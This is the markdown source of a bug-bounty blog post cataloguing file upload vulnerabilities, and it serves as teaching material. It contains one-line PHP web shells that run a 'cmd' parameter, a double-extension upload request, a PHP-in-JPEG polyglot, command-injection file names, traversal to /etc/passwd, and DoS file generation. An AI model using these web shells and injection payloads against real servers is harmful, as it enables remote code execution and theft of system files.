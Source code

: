 ```yaml
---
title: <img width="50" height="50" alt="img" src="https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/72322038-9495-47ba-bf30-0caa7c1a7968"> File Upload Vulnerabilities 🗃️ 
date: 2024-01-16 07:00:02 +730
categories: [Resources, bugbounty]
tags: [fileupload-vulnerability,bug-bounty,cybersecurity] # TAG names should always be lowercase
mermaid: true

---
```



<!-- <h1 style="color: cyan; text-align: center">100 Day's Of Cybersecurity - Day 16</h1> -->


![File-Upload-Vulnerability-2760290964](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/72322038-9495-47ba-bf30-0caa7c1a7968){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }





# 1. Unrestricted File Type Upload:


Allowing users to upload files without proper validation can lead to the execution of malicious scripts. An attacker may upload a file with a double extension, such as "malicious.php.jpg," tricking the system into treating it as an image file while executing PHP code.

**Example Payloads:**
```php
<?php echo passthru($_GET['cmd']); ?>
```

```php
<?php echo exec($_POST['cmd']); ?>
```
```php
<?php system($_GET['cmd']); ?>
```
```php
<?php passthru($_REQUEST['cmd']); ?>
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="malicious.php.jpg"
Content-Type: image/jpeg

...binary data of the image...
```

# 2. File Size Limit Bypass:


Attackers can attempt to bypass file size restrictions by compressing files or splitting them into smaller parts. This may allow them to upload content exceeding the specified limits.

**Example Payload:**
```bash
# Splitting a file into parts
split -b 1M largefile.txt part
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="part1"
Content-Type: text/plain

...binary data of part 1...

POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="part2"
Content-Type: text/plain

...binary data of part 2...
```

# 3. Malicious File Content:


Attackers may manipulate file content to include malicious scripts or payloads, exploiting vulnerabilities in server-side processing.

**Example Payload:**
```html
<script>alert('XSS Attack');</script>
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="malicious.html"
Content-Type: text/html

<script>alert('XSS Attack');</script>
```

# 4. Path Traversal Attacks:


Path traversal vulnerabilities may allow attackers to upload files outside the intended directory, potentially gaining unauthorized access to sensitive information.

> The restrication may not be in the previous directory ! 😜 


**Example Payload:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="../sensitivefile.txt"
Content-Type: text/plain

...binary data of the file...
```

# Remote Command Execution (RCE) via File Name Parameter

If the application includes custom image processing or file manipulation, it may be susceptible to remote command execution through code injection in the file name.

## Example Valid File Names and Payloads:

| File Name            | Payload        | Outcome if Vulnerable  |
|----------------------|----------------|------------------------|
| a$(whoami)z.jpg      | $(whoami)      | a[CURRENT USER]z.jpg   |
| a\`whoami\`z.jpg     | \`whoami\`     | a[CURRENT USER]z.jpg   |
| a;sleep 30;z.jpg     | ;sleep 30;     | The application will take 30+ seconds to respond |



# 5. Denial of Service (DoS) through File Uploads:


Attackers may overwhelm the server by uploading a large number of files simultaneously.

**Example Payload:**
```bash
# Generating a large file
dd if=/dev/zero of=largefile.txt bs=1M count=100
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="largefile.txt"
Content-Type: application/octet-stream

...binary data of the large file...
```

# 6. Image-Based Attacks (Polyglot):


Exploiting vulnerabilities in image processing libraries to execute arbitrary code.

<iframe width="560" height="315" src="https://www.youtube.com/embed/uGk5_yDbSeQ?si=BKDXh1Xh7H_pMhkb" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

> simple way to achive this is using exiftool and embed the php webshell via comeents
{: .prompt-info }


**Example Payload (Image with Embedded Malicious Code):**
```bash
# Embedding malicious code in an image
echo -n '<?php system("ls -la"); ?>' >> malicious.jpg
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="malicious.jpg"
Content-Type: image/jpeg

...binary data of the image...
```

# 7. Insecure Direct Object References (IDOR):

**Vulnerability Description:**
File upload functionalities may introduce IDOR vulnerabilities, allowing attackers to manipulate file references.

**Example Payload:**
```http
GET /download?file=../../../etc/passwd HTTP/1.1
```

In this case, an attacker manipulates the file parameter to access sensitive files.

These examples illustrate the technical aspects of common file upload vulnerabilities and highlight the importance of implementing robust security measures to protect against them. Always validate, sanitize, and restrict file uploads to ensure the integrity and security of your web application.



![](https://media.giphy.com/media/DAtJCG1t3im1G/giphy.gif)

